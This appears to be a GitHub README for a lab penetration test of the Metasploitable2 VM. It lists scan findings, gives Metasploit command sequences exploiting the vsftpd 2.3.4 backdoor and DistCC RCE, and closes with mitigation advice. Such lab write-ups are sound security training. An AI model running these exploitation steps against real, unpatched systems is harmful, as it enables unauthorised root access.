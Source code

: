 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify, analyze and exploit vulnerabilities in web and network services while documenting findings and mitigation strategies.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM used as the target.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.


## 📊 Vulnerabilities Discovered

### 🔍 **Web Vulnerabilities (Nikto Scan)**
| **Vulnerability** | **CWE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **Clickjacking** | CWE-1021 | X-Frame-Options header missing, allowing UI redress attacks. | Medium |
| **Directory Browsing** | - | Allows browsing of sensitive files that attackers can access. | Medium |

### 🔍 **Network Vulnerabilities (OpenVAS Scan)**
| **Vulnerability** | **CVE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **DistCC Remote Code Execution (RCE)** | CVE-2004-2687 | Attackers can execute arbitrary commands remotely. | High |
| **vsftpd 2.3.4 Backdoor** | CVE-2011-2523 | Backdoor in vsftpd allows unauthorized root access. | Critical |
| **OpenSSL MITM Attack** | CVE-2014-0224 | SSL/TLS vulnerability allowing encrypted traffic interception. | High |

---

## 💻 Exploitation Demonstrations
### **1️⃣ Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access


### 2️⃣ Exploiting DistCC RCE
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <Metasploitable_IP>
set LHOST <Attacker_IP>
exploit
whoami  # Confirms access

## 🔐 Security Recommendations
To mitigate these vulnerabilities, the following security measures should be implemented:

### For Web Vulnerabilities:
✅ Enable X-Frame-Options to protect against clickjacking.  
✅ Disable directory listing in Apache/Nginx configurations.  
✅ Implement Content Security Policy (CSP) to control how resources are loaded.  

### For Network Vulnerabilities:
✅ Patch vsftpd 2.3.4 to the latest version.  
✅ Disable unused services like DistCC to minimize attack surface.  
✅ Use strong encryption (TLS 1.2/1.3) instead of outdated OpenSSL versions.  

### General Recommendations:
✅ Use a Web Application Firewall (WAF).  
✅ Regularly scan for vulnerabilities using OpenVAS and Nikto.  
✅ Implement strict access controls and monitoring.  

---

## 📂 Project Structure
Penetration-Testing-Metasploitable2/
│── README.md  # Project Documentation
│── Final_MetasplotableReport.pdf  # Full project report
│── screenshots/
│   ├── nikto_scan.png
│   ├── openvas_results.png
│   ├── metasploit_exploit.png
│── scripts/
│   ├── metasploit_vsftpd_exploit.rc


## 📜 Resources
Here are some useful resources for further learning:

- 📌 [Metasploitable2 VM](https://sourceforge.net/projects/metasploitable/)
- 📌 [Kali Linux](https://www.kali.org/)
- 📌 [Metasploit Framework](https://www.rapid7.com/products/metasploit/)
- 📌 [Nikto Web Scanner](https://cirt.net/nikto2)
- 📌 [OpenVAS Scanner](https://www.openvas.org/)




